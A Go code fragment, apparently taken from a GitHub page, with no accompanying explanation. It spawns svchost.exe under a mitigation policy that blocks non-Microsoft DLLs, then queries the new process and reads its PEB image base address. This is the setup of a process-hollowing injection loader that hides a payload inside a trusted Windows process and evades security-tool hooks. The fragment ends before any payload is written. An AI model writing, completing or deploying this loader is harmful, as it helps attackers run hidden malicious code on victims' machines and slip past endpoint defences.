```go
  var pbi PROCESS_BASIC_INFORMATION

  procThreadAttributeSize := uintptr(0)
  InitializeProcThreadAttributeList.Call(0, 2, 0, uintptr(unsafe.Pointer(&procThreadAttributeSize)))

  fmt.Println("GetProcessHeap")
  procHeap, _, err := GetProcessHeap.Call()
  if procHeap == 0 {
    log.Fatal(err)
  }

  fmt.Println("HeapAlloc")
  attributeList, _, err := HeapAlloc.Call(procHeap, 0, procThreadAttributeSize)
  if attributeList == 0 {
    log.Fatal(err)
  }
  defer HeapFree.Call(procHeap, 0, attributeList)

  var si StartupInfoEx
  si.AttributeList = (*PROC_THREAD_ATTRIBUTE_LIST)(unsafe.Pointer(attributeList))

  fmt.Println("InitializeProcThreadAttributeList")
  InitializeProcThreadAttributeList.Call(uintptr(unsafe.Pointer(si.AttributeList)), 2, 0, uintptr(unsafe.Pointer(&procThreadAttributeSize)))

  mitigate := 0x20007
  nonms := uintptr(0x100000000000|0x1000000000)

  fmt.Println("UpdateProcThreadAttribute")
  r, _, err := UpdateProcThreadAttribute.Call(uintptr(unsafe.Pointer(si.AttributeList)), 0, uintptr(mitigate), uintptr(unsafe.Pointer(&nonms)), uintptr(unsafe.Sizeof(nonms)), 0, 0)
  if r == 0 {
    log.Fatal(err)
  }

  cmd := append([]byte("C:\\Windows\\System32\\svchost.exe"), byte(0))

  var pi ProcessInformation
  si.Cb = uint32(unsafe.Sizeof(si))
  flags := windows.EXTENDED_STARTUPINFO_PRESENT

  fmt.Println("CreateProcessA")
  r, _, err = CreateProcessA.Call(0, uintptr(unsafe.Pointer(&cmd[0])), 0, 0, 1, uintptr(uint32(flags)), 0, 0, uintptr(unsafe.Pointer(&si)), uintptr(unsafe.Pointer(&pi)))
  if r == 0 {
    log.Fatal(err)
  }

  var returnLength int32
  pointerSize := unsafe.Sizeof(uintptr(0))

  fmt.Println("ZwQueryInformationProcess")
  ZwQueryInformationProcess.Call(uintptr(pi.Process), 0, uintptr(unsafe.Pointer(&pbi)), pointerSize*6, uintptr(unsafe.Pointer(&returnLength)))

  imageBaseAddress := pbi.PebAddress + 0x10
  addressBuffer := make([]byte, pointerSize)

  var read uintptr
  fmt.Println("ReadProcessMemory")
  ReadProcessMemory.Call(uintptr(pi.Process), imageBaseAddress, uintptr(unsafe.Pointer(&addressBuffer[0])), uintptr(len(addressBuffer)), uintptr(unsafe.Pointer(&read)))
```